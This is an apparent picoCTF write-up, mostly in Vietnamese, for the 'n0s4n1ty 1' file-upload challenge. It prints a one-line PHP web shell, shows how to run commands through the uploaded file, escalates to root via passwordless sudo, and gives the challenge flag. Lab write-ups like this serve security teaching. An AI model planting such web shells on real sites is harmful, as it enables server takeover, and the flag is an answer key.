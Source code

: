 # 🧠 Challenge: n0s4n1ty 1

---

## 📝 **Description**

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

---

## 💡 **Hint**

- `File upload was not sanitized` 
- `Whenever you get a shell on a remote machine, check sudo -l`

---

## 🔍 **Initial Analysis**

Khi khởi động challenge, người dùng được cung cấp một giao diện web với chức năng **tải ảnh đại diện**.
![](../img/n0s4n1ty-1.png)
Kiểm tra mã JavaScript phía frontend:

```javascript
var loadFile = function(event) {
    var input = event.target;
    var file = input.files[0];
    var type = file.type;
    var output = document.getElementById('preview_img');

    output.src = URL.createObjectURL(event.target.files[0]);
    output.onload = function() {
        URL.revokeObjectURL(output.src); // free memory
    }
};
```
Đây chỉ là mã preview ảnh, không có cơ chế lọc nội dung file upload, cho thấy khả năng tồn tại lỗ hổng unsanitized file upload.
Kiểm tra sever và web có hoạt động ổn định bằng việc upload thử 1 file ảnh có dung lượng nhỏ:
![](../img/n0s4n1ty-1-test.png)
![](../img/n0s4n1ty-1-test-output.png)
![](../img/n0s4n1ty-1-test-output-img.png)

---
## 🚩 **Exploit: Unsanitized File Upload → Web Shell**

**Tạo 1 file shell php với nội dung:**
```php
<?php system($_GET['cmd']); ?>
```
**Upload file php lên web và truy cập vào đường dẫn http://<host>:<port>/uploads/shell.php?cmd=id** 
> Ta thấy lệnh được thực thi, cho thấy ta có thể **Remote Code Execution.**

Như hint của bài thì ta dùng câu lệnh ``sudo -l`` cho kết quả : 
![](../img/n0s4n1ty-1-payload.png)
> ``User www-data`` → người dùng hiện tại.
> 
> ``may run the following commands`` → được phép chạy...
> 
> ``(ALL)`` → với tư cách bất kỳ user nào (bao gồm cả root).
> 
> ``NOPASSWD`` → không cần nhập mật khẩu khi dùng sudo.
> 
> ``ALL`` → chạy được tất cả lệnh.
>

Kết quả cho ta biết : User hiện tại có thể thực thi mọi lệnh dưới quyền root mà không cần mật khẩu.

Sử dụng câu lệnh : `` sudo ls /root `` 

Trả lại kết quả là : `` flag.txt ``

Tiếp sau đó dùng câu lệnh : `` sudo cat /root/flag.txt `` để đọc file ``flag.txt`` và nhận được flag

### Flag : `` picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0} ``
